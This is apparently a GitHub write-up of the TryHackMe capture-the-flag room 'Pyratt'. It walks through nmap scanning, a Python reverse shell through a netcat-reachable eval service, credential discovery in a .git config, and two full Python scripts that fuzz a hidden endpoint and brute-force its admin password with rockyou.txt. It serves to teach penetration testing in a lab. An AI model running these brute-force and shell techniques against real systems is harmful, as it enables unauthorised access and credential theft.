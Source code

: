 # tryhackme-Pyratt-Writeup
![intro](https://github.com/user-attachments/assets/28e04153-3286-4a8a-8d50-29f529071f88)
# tryhackme-Pyratt-Writeup

This is a walkthrough for the tryhackme CTF Pyratt. I will not provide any flags or passwords as this is intended to be used as a guide. Think you're up for the Challange?

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -sV -sC -A -v $ip -oN
```

Command break down:

-sV

Service Version Detection: This option enables version detection, which attempts to determine the version of the software running on open ports. For example, it might identify an HTTP server as Apache with a specific version.
-sC

Default Scripts: This option runs a collection of default NSE (Nmap Scripting Engine) scripts that are commonly useful. These scripts perform various functions like checking for vulnerabilities, gathering additional information, and identifying open services. They’re a good starting point for gathering basic information about a host.
-A

Aggressive Scan: This option enables several scans at once. It combines OS detection (-O), version detection (-sV), script scanning (-sC), and traceroute (--traceroute). It’s useful for a comprehensive scan but can be intrusive and time-consuming.
-v

Verbose Mode: Enables verbose output, which provides more detailed information about the scan’s progress and results.
$ip

Target IP: This is a placeholder for the target IP address you want to scan. In practice, replace $ip with the actual IP of the machine you are targeting.
-oN

Output in Normal Format: This option saves the scan results in a plain text file format. After -oN, specify a filename where you want to store the output.

The scan reveals a simple http web server on port 8000, and ssh.

![nmap](https://github.com/user-attachments/assets/96e6f487-b646-49d4-97a9-f7a41358ce6f)

When visiting the webserver on $ip:8000, there is just a message to "try a more basic connection". 
Let's try to connect via netcat:
```bash
nc $ip 8000
```
After typing in a few cmds and thinking back to nmap showing that this is a python server, we can see that it accepts python cmds ex. print(33+55). 
Let's try inputting a python rev shell from revshells.com. Notice, since it is taking python cmds directly, do not inlude the python -c part of the shell. 

![www-data](https://github.com/user-attachments/assets/20065d7b-f457-4f62-a0c2-d9b4875bae10)

We now have a reverse shell as www-data. We are in the root directory so we don't have permission to ls in this directory. 
Running cat /etc/passwd reveals a user named think. I tried to navigate to home/think but we don't have permission. I then ran the find command to see what files and directories they have, which reveals /opt/dev/.git:

![think](https://github.com/user-attachments/assets/eb724ecd-2c11-406b-8570-102953979d5f)

Navigating to this directory we see a lot of files and dirs and www-data has read access to. The config file reveals credentials for think. Let's try to use these to ssh onto the target.

![ssh_think](https://github.com/user-attachments/assets/8b7b90ba-6939-4856-8c09-42550351c936)

Tbey worked, and we can now reveal the user flag from think's home dir.

I poked around the home dir but didn't seem to turn anything up. The hint says to "keep playing with the custom app" so I head back to /opt/dev/.git.

![logs](https://github.com/user-attachments/assets/7ac807a5-b250-488a-8c7a-1a1c77cc2fe3)

We can see some notes like 'added shell endpoint', and in logs there is a sha1 hash for a commit.

If we head back to /opt/dev and run the cmd git show (sha1 hash), it reveals the commit:

![git show](https://github.com/user-attachments/assets/c907c29f-2aa3-4a88-a68f-905a9dd49972)

This reveals the functionality of the python web server on port 8000. We see that it is asking for some specific data == 'some endpoint'. Then checks to see if you provide admin credentials, and if not, then the shell is www-data.

So I used this pythong script to run again the netcat connection to fuzz endpoints using the /dirb/common.txt wordlists. Here is the script:

```bash
import socket
import os

host = os.environ.get('ip')
if not host:
    print("Error: Environment variable 'ip' is not set")
    exit(1)

port = 8000

wordlist = "/usr/share/wordlists/dirb/common.txt"

def fuzz_endpoint(wordlist):
    unique_responses = set()  # Use a set to store unique responses
    try:
        with open(wordlist, 'r') as file:
            for line in file:
                command = line.strip()
                with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                    s.connect((host, port))
                    s.sendall(command.encode() + b'\n')
                    response = s.recv(1024).decode().strip()
                    if response and "is not defined" not in response and "leading zeros" not in response:
                        # Only add and print unique responses
                        if response not in unique_responses:
                            unique_responses.add(response)
                            print(f"Command: {command}")
                            print(f"Unique Response: {response}\n")
    except FileNotFoundError:
        print(f"File doesn't exist")
    except Exception as e:
        print(f"Error has occurred: {e}")

fuzz_endpoint(wordlist)
```
The script reveals that the endpoint is admin:

![endpoint](https://github.com/user-attachments/assets/7b852d3a-9fb5-4244-bfbf-2758ca275a47)

When we enter the admin endpoint the script prompts us for a password. Now I ran another script to fuzz the admin endpoint password prompt with rockyou.txt:

```bash
import socket
import os

host = os.environ.get('ip')
if not host:
    print("Error: Environment variable 'ip' is not set")
    exit(1)

port = 8000

wordlist = "/usr/share/wordlists/rockyou.txt"

def fuzz_password(wordlist):
    try:
        with open(wordlist, 'r', errors='ignore') as file:
            for password in file:
                # Clean up lines
                password = password.strip()
                # Establish connection to server
                with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                    s.connect((host, port))
                    # Send "admin" cmd to prompt for password
                    s.sendall(b'admin\n')
                    # Receive the password prompt
                    response = s.recv(1024).decode().strip()
                    if "password" in response.lower():
                        s.sendall((password + '\n').encode())
                        # Receive the response after entering the password
                        response = s.recv(1024).decode().strip()

                        # Check if the password is correct
                        if "password:" not in response.lower():
                            print(f'The password is: {password}')
                            return  # Exit the function if password is found
                    else:
                        print("Unexpected response from server")
                        return

        print("Password not found in wordlist")
    except FileNotFoundError:
        print(f"Wordlist file not found: {wordlist}")
    except Exception as e:
        print(f"Error has occurred: {e}")

fuzz_password(wordlist)
```
This script finishes pretty quickly to reveal a simple password. Now we can use the admin endpoint and password to gain a root shell and get the root flag! 

![root](https://github.com/user-attachments/assets/5ef050ec-6573-487a-aa9a-acd0c02fec82)
